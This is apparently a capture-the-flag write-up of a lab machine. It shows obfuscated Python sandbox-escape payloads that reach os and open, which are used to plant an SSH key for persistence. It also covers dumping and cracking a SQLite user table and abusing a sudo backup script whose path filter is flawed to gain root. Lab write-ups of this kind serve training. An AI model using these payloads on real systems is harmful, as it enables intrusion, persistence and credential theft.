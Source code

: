 # CTF Challenge: CODE HTB

## Initial Exploration

We notice that port **5000** is open with the **HTTP** protocol. When accessing it, we discover an online Python compiler. Our first attempt is to list the available classes using the following script:

```python
for i, cls in enumerate(''.__class__.__mro__[1].__subclasses__()):
    print(f"Index {i}: {cls.__name__}")
```

This script works and returns useful results.

---

## Creating an SSH Access

We observe that the user does not have a **.ssh** folder. We will create one to establish an SSH connection later.

### Creating the `.ssh` Folder

```python
b = (0).__class__.__base__.__subclasses__()[138].__init__.__globals__
i = b['__bui' + 'ltins__']
i['__im' + 'port__']('o'+'s').__getattribute__('make' + 'dirs')('/home/app-production/.ssh/')
```

### Adding Our Public SSH Key

```python
f = ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__bui'+'ltins__']['op'+'en']('/home/app-production/.ssh/authorized_keys', 'w')
getattr(f, 'w'+'rite')('ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAa4YWMYFMgqwAKvvz4HsksklM78XxsjF6mGuwKcJOdpxhYBNNDyyh/WBGYI/zoEQCQBuZjjm+jgEJYsyNLOAt8= kali@kali')
getattr(f, 'clo'+'se')()
```

---

## Accessing the SQLite Database

We find hints in a configuration file indicating the presence of an **SQLite3** database.

### Locating the Database

```bash
app-production@code:~$ find / -name "database.db" 2>/dev/null
/home/app-production/app/instance/database.db
/home/app-production/instance/database.db
```

### Exploring the Database

```bash
app-production@code:~$ sqlite3 /home/app-production/app/instance/database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```

#### Retrieving Available Tables

```sql
sqlite> .tables
code  user
```

#### Extracting Users and Passwords

```sql
sqlite> select * from user;
1|root|new_root_password
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|sojlen|202cb962ac59075b964b07152d234b70
```
We found MD5 hashed password, let's go crack that with Hashcat

<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image1.png" alt="hashcat">
</div>

Thus, we obtain **Martin's** password.

---

## Privilege Escalation

After logging in as **Martin**, we execute:

```bash
martin@code:~$ sudo -l
```

We discover a script **/usr/bin/backy.sh** that can be executed with sudo.

### Content of `backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\.\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

We exploit a flaw in the script to execute arbitrary commands.
<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image2.png" alt="arbitrary-command">
</div>

### Exploitation

We can use **tar** to extract sensitive content into `/home/martin/backup/`:

```bash
tar -xvf code
```
<div align="center">
  <img src="https://github.com/10T4/write-up/blob/main/images/Image3.png" alt="root-access">
</div>

This grants us access to the necessary files to gain **root** access.

---

## Retrieving the Root Flag

By exploiting the script's vulnerability, we obtain **root** access, allowing us to read the **/root/root.txt** file.


